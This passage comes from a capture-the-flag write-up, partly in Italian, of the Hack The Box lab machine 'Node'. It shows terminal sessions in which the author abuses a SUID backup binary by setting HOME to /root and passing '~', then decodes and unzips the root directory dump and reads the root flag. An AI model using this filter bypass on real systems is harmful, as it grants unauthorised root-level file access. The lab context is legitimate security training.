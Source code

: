 ```bash
Physical Size = 237


Enter password (will not be echoed):
Everything is Ok

Size:       33
Compressed: 237
┌──(root㉿kali)-[~kali/htb/node]
└─# ls
45010.c  creds.txt  hash.txt  myplace.backup  myplace.backup.zip.hash  myplace-decoded.backup  root  root-decoded  root.txt  var
┌──(root㉿kali)-[~kali/htb/node]
└─# cd root
┌──(root㉿kali)-[~kali/htb/node/root]
└─# ls
root.txt
┌──(root㉿kali)-[~kali/htb/node/root]
└─# cat root.txt
69b89412f7c64bcc159b823ac782a0eb
```


### 2st METOD USING THE HOME VARIABLE

Anche il carattere ~ non è filtrato, quindi possiamo usarlo per fare un backup della directory principale.

Innanzitutto, imposta la variabile d'ambiente $HOME su /root.

```bash
tom@node:/tmp$ export HOME=/root
```

ripetiamo la procedura  per avere il backup dandogli come argomento la ~ 
 
```bash
tom@node:/tmp$ /usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 "~" > root
tom@node:/tmp$ cat root | base64 --decode > root-decoded
tom@node:/tmp$ mkdir loot
tom@node:/tmp$ unzip root-decoded -d /tmp/loot
tom@node:/tmp$ unzip root-decoded -d /tmp/hack/
Archive:  root-decoded
   creating: /tmp/hack/root/
[root-decoded] root/.profile password:
  inflating: /tmp/hack/root/.profile
   creating: /tmp/hack/root/.cache/
 extracting: /tmp/hack/root/.cache/motd.legal-displayed
 extracting: /tmp/hack/root/root.txt
  inflating: /tmp/hack/root/.bashrc
  inflating: /tmp/hack/root/.viminfo
   creating: /tmp/hack/root/.nano/
 extracting: /tmp/hack/root/.nano/search_history
tom@node:/tmp$ cd hack/
tom@node:/tmp/hack$ ls
root
tom@node:/tmp/hack$ cd root/
tom@node:/tmp/hack/root$ ls
root.txt
tom@node:/tmp/hack/root$ cat root.txt
69b89412f7c64bcc159b823ac782a0eb
tom@node:/tmp/hack/root$
```
